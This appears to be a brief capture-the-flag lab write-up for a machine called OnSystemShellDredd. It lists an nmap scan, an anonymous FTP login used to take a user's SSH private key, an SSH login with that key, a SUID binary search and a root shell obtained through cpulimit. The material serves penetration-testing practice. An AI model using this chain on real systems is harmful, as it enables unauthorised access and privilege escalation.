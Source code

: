 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# OnSystemShellDredd
# 7/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
nmap -sV -p- 192.168.217.130 -oN nmapAllPorts -T4 

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)



ftp
Anonymous
.hannah
get id_rsa


ssh -i id_rsa hannah@192.168.217.130 -p 61000

find / -perm -u=s -type f 2>/dev/null


cpulimit -l 100 -f -- /bin/sh -p

